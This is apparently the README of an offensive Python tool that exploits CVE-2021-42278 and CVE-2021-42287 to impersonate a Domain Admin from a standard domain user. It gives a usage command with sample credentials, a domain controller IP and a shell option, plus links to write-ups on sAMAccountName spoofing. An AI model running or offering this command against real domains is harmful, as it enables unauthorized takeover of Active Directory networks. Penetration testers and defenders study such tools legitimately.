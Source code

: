 Exploiting CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user 

usage:

python3 sam_the_admin.py "domainname/John:Admin@123" -dc-ip 172.16.242.135 -shell

### Known issues
- it will not work outside kali , i will update it later on :)

#### Check out 
- [CVE-2021-42287/CVE-2021-42278 Weaponisation ](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)
- [sAMAccountName spoofing](https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing)
